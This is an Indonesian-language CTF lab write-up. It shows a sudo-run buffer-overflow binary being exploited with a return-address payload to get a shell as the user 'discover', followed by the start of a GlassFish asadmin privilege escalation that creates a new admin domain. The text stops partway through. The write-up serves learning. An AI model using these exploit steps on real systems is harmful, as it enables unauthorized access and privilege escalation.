 ## shell as discover

sebelumnya, saya cek terlebih dahulu ada berapa user di dalam machine ini
```sh
www-data@debian:/var/www/html/botdiscover$ grep -i sh$ /etc/passwd
grep -i sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
discover:x:1000:1000:discover,,,:/home/discover:/bin/bash
```
ternyata hanya 2, jadi saya tidak perlu repot repot untuk enumeration lebih lanjut.

![image212312](https://i.ibb.co/6nF2YZB/image.png)

saat sudah selesai menjalankan *linpeas* saya menemukan ini pada **sudo -l**. lalu saat saya cek ternyata memang betul basic overflow yang biasanya ada di acara CTF yang easy-easy itu.
```sh
www-data@debian:/opt$ ls
ls
glassfish6
hint
overflow
www-data@debian:/opt$ cat hint
cat hint
AAAAAAAAAAAAAAAAAAAAAAAA"+"\x5d\x06\x40\x00
```
bahkan ada hint-nya, mungkin si creator mikirin partisipan member sini juga ya.
```sh
www-data@debian:/opt$ sudo -u discover /opt/overflow $(python3 -c 'print("AAAAAAAAAAAAAAAAAAAAAAAA\x5d\x06\x40\x00")')
<print("AAAAAAAAAAAAAAAAAAAAAAAA\x5d\x06\x40\x00")')
bash: warning: command substitution: ignored null byte in input
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(discover) gid=1000(discover) groups=1000(discover),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)

```
## privilege escalation

setelah membaca cukup lama dokumentasi pada binary **asadmin**, saya menemukan list domain yang dipakai pada port **4848**. tetapi saya tidak tahu pasti *credential* yang dipakai oleh domain container tersebut, jadi saya membuat domain container dengan akun admin yang baru lagi, lalu memberhentikan **domain1** *container* dan mencoba menjalankan domain **sharpicx** pada port **4848** lalu mengaktifkan *secure admin* pada domain **sharpicx**.
```sh
discover@debian:/opt/glassfish6/glassfish/domains$ sudo /opt/glassfish6/bin/asadmin stop-domain domain1
Waiting for the domain to stop .........
Command stop-domain executed successfully.
discover@debian:/opt/glassfish6/glassfish/domains$ sudo /opt/glassfish6/bin/asadmin create-domain sharpicx
Enter admin user name [Enter to accept default "admin" / no password]>sharpicx
Enter the admin password [Enter to accept default of no password]> 
Enter the admin password again> 
Using default port 4848 for Admin.
Using default port 8080 for HTTP Instance.
Using default port 7676 for JMS.
Using default port 3700 for IIOP.
Using default port 8181 for HTTP_SSL.
Using default port 3820 for IIOP_SSL.
Using default port 3920 for IIOP_MUTUALAUTH.
Using default port 8686 for JMX_ADMIN.
Using default port 6666 for OSGI_SHELL.
Using default port 9009 for JAVA_DEBUGGER.
```